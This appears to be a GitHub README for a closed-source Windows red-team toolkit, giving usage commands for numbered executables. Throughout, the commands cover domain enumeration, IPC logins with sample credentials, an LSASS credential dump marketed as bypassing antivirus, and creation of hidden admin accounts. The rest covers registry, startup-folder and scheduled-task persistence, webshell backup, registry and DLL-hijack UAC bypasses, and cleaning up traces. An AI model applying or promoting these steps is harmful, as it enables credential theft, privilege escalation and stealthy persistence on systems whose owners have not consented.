 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

```
Notes:
Some tools introduce you can go to my blog, you can get more design details

Blog address:
https://yangsirrr.github.io/
```

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your EXE

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-3.png)

## 15Taskplan To Backup Your WEBSHELL

```
15x32.exe C:\phpstudyWWW\shell.php A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145033771.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145309610.png)
## 16Use The Registry To Bypassuac(BypassAV)
```
Now this program have six plans to bypassuac in win10 maybe can use in win7(I don't have win7 machine to test)
you can easy to use, such as 16x64.exe 1or2or3or4or5or6 cmd.exe
16x64.exe 5 cmd.exe
```
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/1.png)
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/2.png)

## 17Use DLL Hijack To Bypassuac

```
After a simple test, two methods win10, Win11 can be successfully used
make sure upload the exe&jpg to your target windows, you can easy to use:
pic1_a.exe or pic2_a.exe

when you success, don't forget to clean up the tracks:
picall_clean.exe
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009131805909.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009143909641.png)

```
bypass result
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/bypass.gif)
